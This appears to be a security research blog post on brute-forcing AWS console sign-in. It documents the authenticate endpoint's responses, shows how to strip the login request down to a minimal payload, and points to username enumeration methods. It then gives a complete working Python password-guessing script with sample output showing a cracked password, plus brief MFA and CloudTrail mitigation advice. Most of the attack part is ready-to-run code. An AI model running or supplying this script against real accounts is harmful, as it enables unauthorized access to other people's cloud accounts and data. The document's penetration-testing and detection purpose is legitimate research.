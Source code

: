 ```yaml
---
title: How to brutefore AWS console sign-in
author: Naikordian
date: 2021-09-15 10:34:00 -0500
categories: [Reseach,Cloud]
tags: [AWS]
---
```


## Introduction
I saw some vendors have a detection rule about AWS Console brute force login and I was curious if there any AWS console brute force tool. So I start google but found nothing and I think there should be a way to brute force.

## How does console sign in work?
When you click "Sign in" the console will send login data to https://signin.aws.amazon.com/authenticate and return a response
 
if the user enable MFA:
```json
{"state":"SUCCESS","properties":{"result":"MFA","mfaType":"SW","header":"Multi-factor Authentication","cancelLink":"https://console.aws.amazon.com/console/home?fromtb\u003dtrue\u0026hashArgs\u003d%23\u0026state\u003dhashArgsFromTB_us-east-1_4301e3df13c998fe","text":"Enter an MFA code to complete sign-in."}}
```
Login success:
```json
{"state":"SUCCESS","properties":{"result":"SUCCESS","redirectUrl":"https://console.aws.amazon.com/console/home?code\u003RUYiLCJlbmMiOiJ.....................................................YXgvJagvR8sF7w"}}
```
 Incorrect username/password:
```json
{"state":"FAIL","properties":{"result":"FAILURE","text":"Your authentication information is incorrect. Please try again."}}
```
Missing some header:
```html
There seems to be a problem with your session. Or you are trying to access an AWS region that is not enabled for your account. <br />
 If the problem persists try clearing your browser cookies or <a href="https://console.aws.amazon.com/iam/home?region=us-east-1" target="_blank">sign in into the US East region</a>.
We apologize for the inconvenience.<br />
```
Missing some POST data :
```json
{"state":"FAIL","properties":{"Message":"Invalid request","Title":"Bad Request","header":"Bad Request","text":"Invalid request"}}
```

So I remove unnecessary parameters the request will look like this :


```python
import requests

headers = {
    'Referer': 'https://signin.aws.amazon.com/oauth?client_id=arn%3Aaws%3Asignin%3A%3A%3Aconsole%2Fcanvas&code_challenge=HX2l8ZYWg_5-bz_ed-RChnM-GNqJFbWBiDBbtq1-HVQ&code_challenge_method=SHA-256&response_type=code&redirect_uri=https%3A%2F%2Fconsole.aws.amazon.com%2Fconsole%2Fhome%3Ffromtb%3Dtrue%26hashArgs%3D%2523%26isauthcode%3Dtrue%26state%3DhashArgsFromTB_us-east-1_5674597973dd3cd0&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEKv%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaCXVzLWVhc3QtMSJGMEQCIFTWCIdWxMlnFxwHYxlpNxADKYyFjHxvuQqbiITcIZguAiB3o%2FsGsv9UbgQWi8UWH5r%2FgBHNK4%2FIaYM0brhqI%2BcpzyqTAgiD%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F8BEAEaDDM1ODgyMTg4MDU2NSIMAtX%2BUfkVugJIEPKoKucBprpcJ0aOyAwP%2FHCPbyTIR1HkK%2F1XdC2dh2cdoPBpkSu%2FXgSLjtuRat4ZoPpIN9PtFCU8zYVhWhf%2BMRThkEDK1tUx8zwjPoE%2B%2BfwkBhBNXGmeptTDfprZ7LosegbiJe86zT8o3VOv4%2FE0tmJHcnSrsbEhM87AikUQvobKY6Lr4JlqU7MM3uuU6pxf7Vz1sagypCfcj%2FSKPlOqsFzmGyFpd9W4KNN%2BWceq9rGLmvHUbKOnN64I73uxWVH%2Bsj10CKgCfw060zjKHfZj41KcNvAazr7HyjT8Qmj1AjsmVw12hc4kobOh6zF8MM6G6oYGOpABiohVmFhrhpvVbITOoSePH7jdiC4my%2B60vDPkj5Av4Euz2Jdb2svTXMRXH82CQkhBl9EhflGz%2BMEp3n2AeJ4ySIajogQPrN0AqGDTQVxxhjcQ24%2F6ueSUC0MsL9irM2tt2Hm%2BHLsZ9zIFF7wSCWtBVVGJsYbcCL659kAWrWuFhXRiofBN7cRvyUZSqO83J2zA&X-Amz-Date=20210629T022227Z&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=ASIAVHC3TML2YHA5VWS4%2F20210629%2Fus-east-1%2Fsignin%2Faws4_request&X-Amz-SignedHeaders=host&X-Amz-Signature=11d78bf1043164b982b04e82f0c33a5866bc35cc70e53da3c6d8353ba525719d',
}

data = {
  'action': 'iam-user-authentication',
  'account': '123456789012',
  'username': 'console_user',
  'password': 'password',
  'client_id': 'arn:aws:signin:::console/canvas',
  'redirect_uri': 'https://console.aws.amazon.com/console/home',
}

response = requests.post('https://signin.aws.amazon.com/authenticate', headers=headers, cookies=cookies, data=data)
```
The referer header has an AWS credential that got from the sign-in page but you can just remove GET parameters the request still works. 
so the final playload will look like this:
```python
import requests

headers = {
    'Referer': 'https://signin.aws.amazon.com',
}

data = {
  'action': 'iam-user-authentication',
  'account': '123456789012',
  'username': 'console_user',
  'password': 'password',
  'client_id': 'arn:aws:signin:::console/canvas',
  'redirect_uri': 'https://console.aws.amazon.com/console/home',
}

response = requests.post('https://signin.aws.amazon.com/authenticate', headers=headers, data=data)
print(response.text)

```
##  Where to find usernames?
You can use a Rhino Security Labs' research [Using AWS Account ID’s for IAM User](https://rhinosecuritylabs.com/aws/aws-iam-user-enumeration/) or Pacu module `iam__enum_users` to enumerate usernames.

## Brute force password

### Requirements
- AWS account id
- Console username
- Password wordlist

### Prepare a wordlist
if you have a permission `iam:GetAccountPasswordPolicy` or you already know the target account's password policy you should follow that policy
but if you don't I recommend using the default policy as a guideline.

The default user password policy:
-   Minimum password length is 8 characters
-   Include a minimum of three of the following mix of character types: uppercase, lowercase, numbers, and ! @ # $ % ^ & * ( ) _ + - = [ ] { } | '
-   Must not be identical to your AWS account name or email address

If you want to make sure the wordlist cover all password as possible you can use this

The weakest possible password policy:
-   Minimum password length is 6 characters

### Brute force script

```python
#!/usr/bin/python3
import argparse
import requests

headers = {
    'user-agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36',
    'referer': 'https://signin.aws.amazon.com',
}

data = {
  'action': 'iam-user-authentication',
  'account': '123456789012',
  'username': 'console_user',
  'password': 'password',
  'client_id': 'arn:aws:signin:::console/canvas',
  'redirect_uri': 'https://console.aws.amazon.com/console/home',
}


requests.urllib3.disable_warnings()

parser = argparse.ArgumentParser()
parser.add_argument('--account-id','-id', required=True, default=False, metavar='account_id', type=str)
parser.add_argument('--username','-u', required=True, default=False, metavar='username', type=str)
parser.add_argument('--wordlist','-w', required=True, default=False, metavar='file_path', type=str)
args = parser.parse_args()

if __name__ == '__main__':
    data['account'] = args.account_id
    data['username'] = args.username
    passwords = open(args.wordlist).read().splitlines()
    for password in passwords:
        data['password'] = password
        response = requests.post(
                'https://signin.aws.amazon.com/authenticate',
                headers=headers,
                data=data,
                verify=False
                )
        if '"result":"SUCCESS"' in response.text:
            print(response.text)
            print("="*20)
            print("Passwrod: ", password)
            break
```
Usage:
```console
./poc.py -id 0123456789012 -u console_user -w passwords.txt
{"state":"SUCCESS","properties":{"result":"SUCCESS","redirectUrl":"https://console.aws.amazon.com/console/home?code\ueyJ6a........................0EqLmrg"}}
====================
Passwrod:  Brut3f0r3_P@ssw0rd
```
## Mitigation
I recommend enabling MFA for all console users. You can also monitor Cloudtrail log eventName: `ConsoleLogin` if you see a lot fail login attempts in a short period and see login success from the same IP maybe someone got into your account.
## Conclusion
This technique combined with a Rhino Security Labs' research[1] could be useful when you perform penetration testing AWS accounts and demonstrate how important MFA and strong password policy are necessary to make your AWS account secure.


[1]: https://rhinosecuritylabs.com/aws/aws-iam-user-enumeration/